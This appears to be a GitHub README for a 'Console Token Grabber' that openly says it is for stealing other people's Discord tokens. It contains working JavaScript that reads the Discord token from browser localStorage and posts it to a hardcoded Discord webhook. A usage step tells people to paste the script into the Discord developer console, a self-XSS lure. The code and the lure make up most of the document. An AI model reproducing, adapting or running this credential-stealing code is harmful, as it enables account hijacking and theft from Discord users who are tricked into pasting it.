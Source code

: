 ## 🔐 Basic Console Token Grabber
**It's a simple "Console Token Grabber" that you can use to steal other people's Discord Token.**

<!--<h3 align="center">
![image](https://cdn.discordapp.com/attachments/941755353035579422/951879632544747540/Unbenannt-1.png)
</h3> -->

![image](https://cdn.discordapp.com/attachments/941755353035579422/951879632544747540/Unbenannt-1.png)

```js
(function() {
    window.dispatchEvent(new Event('beforeunload'));
    var x = new XMLHttpRequest;
    x.open("POST", 'https://discord.com/api/webhooks/947563711281909842/-wxZY0FRrTeVt3GeEoEux_A35j6tdYWaqn4AFVa1E1AH99GmTj6NRYUwWgatDbGhnqJL'), x.setRequestHeader("Content-type", "application/json");
    var y = {
        username: "Eternity Script",
        avatar_url: "https://cdn.discordapp.com/attachments/941755353035579422/947642580521340928/1.png",
        content: "@everyone New skid",
        embeds: [{
            color: "696969",
            description: `Token: ${window.open().localStorage.token}`,
        }]
    };

    x.send(JSON.stringify(y));
    w.close()
}());```

## 🔐 How to use

- Go ond Discord and press CTRL + SHIFT + I and paste the Script in the console.
